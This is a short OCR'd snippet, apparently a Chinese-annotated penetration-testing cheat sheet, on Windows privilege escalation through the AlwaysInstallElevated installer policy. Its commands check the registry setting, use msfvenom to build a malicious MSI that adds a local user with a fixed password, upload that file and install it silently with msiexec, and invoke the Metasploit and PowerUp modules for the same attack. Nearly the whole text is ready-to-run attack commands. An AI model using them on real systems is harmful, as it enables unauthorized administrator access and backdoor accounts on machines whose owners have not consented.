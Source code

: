	>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
	>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

	PS > Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
	PS > Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer
	为1 检测是否永远以高权限启动安装
	#HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
	新建DWORD32 DisableMSI=0
	>msfvenom -p windows/adduser USER=msi PASS=pass@123 -f msi -o /root/add.msi
	>msfvenom -p windows/adduser USER=msi PASS=pass@123 -f msi-nouac -o /root/add.msi
	>upload /root/add.msi c:\\1.msi
	>msiexec /quiet /qn /i c:\1.msi
	MSF
	>use exploit/windows/local/always_install_elevated
	>set session 1
	PowerUp
	Get-RegistryAlwaysInstallElevated,Write-UserAddMSI